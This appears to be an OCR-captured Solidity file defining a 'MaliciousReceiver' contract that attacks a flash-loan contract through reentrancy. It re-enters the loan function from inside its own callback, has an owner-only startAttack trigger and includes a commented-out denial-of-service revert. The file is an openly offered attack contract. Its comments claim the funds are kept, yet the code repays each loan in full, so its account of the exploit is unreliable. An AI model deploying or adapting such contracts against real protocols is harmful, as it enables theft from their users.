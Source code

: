 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./FlashLoanContract.sol"; // Assume this is the contract containing the vulnerable flashloan function
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousReceiver {
    FlashLoanContract public flashLoanContract;
    IERC20 public token;
    address public owner;
    uint256 public reentrancyCounter;

    constructor(address _flashLoanContract, address _token) {
        flashLoanContract = FlashLoanContract(_flashLoanContract);
        token = IERC20(_token);
        owner = msg.sender;
    }

    // This function will be called by the flashloan contract
    function executeOperation(
        address, // tokenAddress
        uint256 amount,
        uint256 fee,
        address initiator,
        bytes calldata params
    ) external {
        require(msg.sender == address(flashLoanContract), "Not flashloan contract");

        // Re-enter the flashloan function before the first one completes
        if (reentrancyCounter == 0) {
            reentrancyCounter += 1;
            // Attempt to take out another flash loan within the first loan
            flashLoanContract.flashloan(address(this), token, amount, params);
        }

        // Repay the loan with the minimum required, but exploit the vulnerability to keep the funds
        uint256 totalRepayment = amount + fee;
        token.transfer(address(flashLoanContract), totalRepayment);

        // Optionally, you could revert here to cause a DoS attack on the contract
        // require(false, "Reentrancy attack!");
    }

    // Function to start the attack
    function startAttack(uint256 amount, bytes calldata params) external {
        require(msg.sender == owner, "Not owner");
        flashLoanContract.flashloan(address(this), token, amount, params);
    }

    // Fallback function to receive Ether (if needed)
    receive() external payable {}
}

```
